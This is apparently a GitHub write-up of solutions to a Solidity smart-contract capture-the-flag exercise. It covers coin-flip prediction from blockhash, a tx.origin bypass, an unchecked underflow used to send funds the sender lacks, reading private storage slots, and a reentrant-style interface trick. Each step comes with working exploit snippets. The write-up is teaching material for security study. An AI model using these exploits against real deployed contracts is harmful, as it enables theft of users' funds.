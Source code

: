 ## CTF

#### 1) Flip 🪙

The objective is to predict 10 times the correct flip.
This is possible due to the accessibility of the "*random*" **FACTOR** of the contract. We can reproduce the calcul and predict **each time** the correct flip.
```sol
uint256 FACTOR = 6275657625726723324896521676682367236752985978263786257989175917;
uint256 lastHash;

function flip() public payable returns(bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        bool win = toHack.flip(side);
        return win;
    }
```

#### 2) AddPoint 🥇

The only one thing to do to get this point is to call the function from another address. The idea is to call a smart contract which call the function, then `tx.origin != msg.sender`.

#### 3) Transfer 💸

The main difficulty of this one is to make a transaction while we have no found. But good for us, this contract is in `solidity ^0.7.0` so the overflows / underflows errors are not natively reverted.

That's why in this require :
```sol
require(balances[msg.sender] - _value >= 0);
```
With a balance of 0 and a _value of 1 we can break the underflow and we obtens a realy **HIGH** value. Then we can bypass the require and send a money we don't have.

#### 4) Send Password 🙊

To achieve this objective we have to read a private value in the storage. To process we calculate the storage slot of the variable we are looking for :
```sol
uint256 FACTOR =
        6275657625726723324896521676682367236752985978263786257989175917; // 0
address public owner; // 1
uint256 lastHash; // 2
bytes32 private password; // 3
bytes32[15] private data; // 4 - 19
```
A slot can store up to 32 bytes (256 bits) so if a variable need more space than the actual slot, it use another one. In our case we can calculate easily the slot of the password : **3**

We can now access the storage and get the password :
```sol
uint startSlot = 3;
bytes32 password = vm.load(address(toHack),bytes32(startSlot));
```

#### 5) Send Key 🔑

The idea is the same as the password objective but to calculate the slot we have to think about the index of the data in the array :
```sol
startSlot = 16; // 4 + 12
bytes32 key = vm.load(address(toHack),bytes32(startSlot));
```

#### 6) Contribute 🤚

This one is a two step objective :
1. Add contribution
1. Send SepETH to the contract and contact the receive callback

```sol
contractToHack.contribute{value: 0.00001 ether}();
address(contractToHack).call{value: 0.00001 ether}("");
```

#### 7) GoTo 🛗

For this one we just have to implement the interface **Building** in our contract and describe its function as we need it to be :

```sol
function goTo(uint256 _floor) public whenUnlocked {
    Building building = Building(msg.sender); // <-- OUR ENTRY

    if (!building.isLastFloor(_floor)) {
        userFloor[tx.origin] = _floor;
        top[tx.origin] = building.isLastFloor(_floor);
        if (top[tx.origin]) {
            if (!alreadyCalled[tx.origin]["goTo"]) {
                marks[tx.origin] += 4;
                alreadyCalled[tx.origin]["goTo"] = true;
            }
        }
    }
}
```

```sol
bool public switchFlipped =  false;
    
function isLastFloor(uint) external returns (bool) {
    // first call
    if (! switchFlipped) {
        switchFlipped = true;
        return false;
    // second call
    } else {
        switchFlipped = false;
        return true;
    }
}
```
With our code we can now bypasse the security and switch the state to achieve our objective.